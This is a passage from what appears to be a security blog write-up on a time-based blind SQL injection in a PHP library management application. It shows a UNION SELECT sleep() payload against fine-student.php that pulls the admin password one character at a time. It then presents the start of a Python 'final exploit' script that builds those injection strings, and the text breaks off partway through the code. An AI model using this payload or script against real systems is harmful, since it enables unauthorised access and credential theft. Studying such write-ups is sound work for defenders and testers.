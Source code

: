 Look at that! Its the first char of the admin's password `1`!

At this point we could simply dump the password like this:

![](/assets/images/webwb/dumpPass.png)

## Add some 1337 to that Sploit
Now that we have it returning the password, lets make it more user friendly.

### Create a Help menu with ArgParse:

![](/assets/images/webwb/helpMenu.png)

### Code for the final exploit:
- Make sure to come up with some ASCII art ;)


```python
import requests,argparse
from colorama import (Fore as F, Back as B, Style as S)

BR,FT,FR,FG,FY,FB,FM,FC,ST,SD,SB = B.RED,F.RESET,F.RED,F.GREEN,F.YELLOW,F.BLUE,F.MAGENTA,F.CYAN,S.RESET_ALL,S.DIM,S.BRIGHT
def bullet(char,color):
    C=FB if color == 'B' else FR if color == 'R' else FG
    return SB+C+'['+ST+SB+char+SB+C+']'+ST+' '
info,err,ok = bullet('-','B'),bullet('!','R'),bullet('+','G')
requests.packages.urllib3.disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning)
proxies         = {'http':'http://127.0.0.1:8080','https':'http://127.0.0.1:8080'}

# POST /LibraryManagement/fine-student.php
# inject' UNION SELECT IF(SUBSTRING(password,1,1) = '1',sleep(1),null) FROM admin WHERE adminId=1; -- kamahamaha
def sqliPayload(char,position,userid,column,table):
    sqli  = 'inject\' UNION SELECT IF(SUBSTRING('
    sqli += str(column)+','
    sqli += str(position)+',1) = \''
    sqli += str(char)+'\',sleep(1),null) FROM '
```